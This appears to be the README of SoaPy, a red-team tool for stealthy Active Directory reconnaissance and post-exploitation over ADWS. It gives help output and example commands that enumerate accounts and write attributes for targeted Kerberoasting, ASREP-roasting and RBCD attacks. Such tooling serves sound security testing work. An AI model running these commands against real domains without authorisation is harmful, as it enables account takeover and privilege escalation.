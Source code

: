 # Description
SoaPy is a Proof of Concept (PoC) tool for conducting offensive  interaction with Active Directory Web Services (ADWS) from Linux hosts. SoaPy includes previously undeveloped custom python implementations of a collection of Microsoft protocols required for interaction with the ADWS service. This includes but is not limited to: NNS (.NET NegotiateStream Protocol), NMF (.NET Message Framing Protocol), and NBFSE (.NET Binary Format: SOAP Extension).

SoaPy can be primarily utilized to interact with ADWS for stealthy recon over a proxy into an internal Active Directory environment. Additionally SoaPy can perform targeted DACL-focused post-exploitation over ADWS, including `servicePrincipalName` writing for targeted Kerberoasting, `DON’T_REQ_PREAUTH` writing for targeted ASREP-Roasting, and the ability to write to `msDs-AllowedToActOnBehalfOfOtherIdentity` for Resource-Based Constrained Delegation attacks. 

![image](https://github.com/user-attachments/assets/e83a3e60-7aaf-4084-bcab-41e400d4055e)

The blog detailing the original research largely from an engineering perspective can be found [here](https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws)

# Usage
```
███████╗ ██████╗  █████╗ ██████╗ ██╗   ██╗
██╔════╝██╔═══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
███████╗██║   ██║███████║██████╔╝ ╚████╔╝ 
╚════██║██║   ██║██╔══██║██╔═══╝   ╚██╔╝  
███████║╚██████╔╝██║  ██║██║        ██║   
╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝        ╚═╝   

@_logangoins
github.com/jlevere  
          
usage: soapy [-h] [--debug] [--ts] [-H nthash] [--users] [--computers] [--groups] [--constrained]
             [--unconstrained] [--spns] [--asreproastable] [--admins] [--rbcds] [-q query] [-f attr,attr,...]
             [-dn distinguishedname] [-p] [--rbcd source] [--spn value] [--asrep] [--account account] [--remove]
             connection

Perform AD reconnaisance and post-exploitation through ADWS from Linux

positional arguments:
  connection            domain/username[:password]@<targetName or address>

options:
  -h, --help            show this help message and exit
  --debug               Turn DEBUG output ON
  --ts                  Adds timestamp to every logging output.
  -H, --hash nthash     Use an NT hash for authentication

Enumeration:
  --users               Enumerate user objects
  --computers           Enumerate computer objects
  --groups              Enumerate group objects
  --constrained         Enumerate objects with the msDS-AllowedToDelegateTo attribute set
  --unconstrained       Enumerate objects with the TRUSTED_FOR_DELEGATION flag set
  --spns                Enumerate accounts with the servicePrincipalName attribute set
  --asreproastable      Enumerate accounts with the DONT_REQ_PREAUTH flag set
  --admins              Enumerate high privilege accounts
  --rbcds               Enumerate accounts with msDs-AllowedToActOnBehalfOfOtherIdentity set
  -q, --query query     Raw query to execute on the target
  -f, --filter attr,attr,...
                        Attributes to select from the objects returned, in a comma seperated list
  -dn, --distinguishedname distinguishedname
                        The root objects distinguishedName for the query
  -p, --parse           Parse attributes to human readable format

Writing:
  --rbcd source         Operation to write or remove RBCD. Also used to pass in the source computer account used
                        for the attack.
  --spn value           Operation to write the servicePrincipalName attribute value, writes by default unless "
                        --remove" is specified
  --asrep               Operation to write the DONT_REQ_PREAUTH (0x400000) userAccountControl flag on a target
                        object
  --account account     Account to preform an operation on
  --remove              Operarion to remove an attribute value based off an operation
```

# Installation
With `pipx`:
```
pipx install .
```


With `poetry`:
```
poetry install
```

# Example Usage

Enumerate users using preset enumeration flags:
```
soapy <domain>/<user>:'<password>'@<ip> --users
```

Enumerate computers `samAccountName` and `objectSid` using a custom query/attribute filtering:
```
soapy <domain>/<user>:'<password>'@<ip> --query '(objectClass=computer)' --filter "samaccountname,objectsid"
```

Write `msDs-AllowedToActOnBehalfOfOtherIdentity` on DC01, enabling delegation from MS01 for an RBCD attack:
```
soapy <domain>/<user>:'<password>'@<ip> --rbcd 'MS01$' --account 'DC01$'
```

Write the `servicePrincipalName` attribute on jdoe as part of a targeted Kerberoasting attack:
```
soapy <domain>/<user>:'<password>'@<ip> --spn test/spn --account jdoe
```

Write `DONT_REQ_PREAUTH` (0x400000) on jdoe's `userAccountControl` attribute, making the account ASREP-Roastable:
```
soapy <domain>/<user>:'<password>'@<ip> --asrep --account jdoe
```
